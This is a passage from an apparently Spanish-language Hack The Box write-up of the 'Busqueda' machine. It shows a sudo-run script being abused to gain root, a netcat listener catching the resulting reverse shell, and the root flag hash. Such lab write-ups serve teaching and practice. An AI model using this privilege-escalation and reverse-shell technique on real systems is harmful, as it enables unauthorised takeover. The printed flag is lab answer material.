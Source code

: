 ```bash
svc@busqueda:~$ chmod +x full-checkup.sh 
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

Y recibimos la `shell`

```bash
❯ nc -nlvp 443
Listening on 0.0.0.0 443
Connection received on 10.129.228.217 36502
root@busqueda:/home/svc# whoami
whoami
root
root@busqueda:/home/svc# 
```

## root.txt

```bash
root@busqueda:~# cat root.txt
cat root.txt
711ea0ca05f0ec4fdfd24e4d74e30b67
root@busqueda:~#
```

## Gitea (extra)

Vamos agregar el subdominio que vimos al `/etc/hosts`

```bash
10.129.228.217 searcher.htb gitea.searcher.htb
```

![](/assets/images/htb-writeup-busqueda/web9.png)
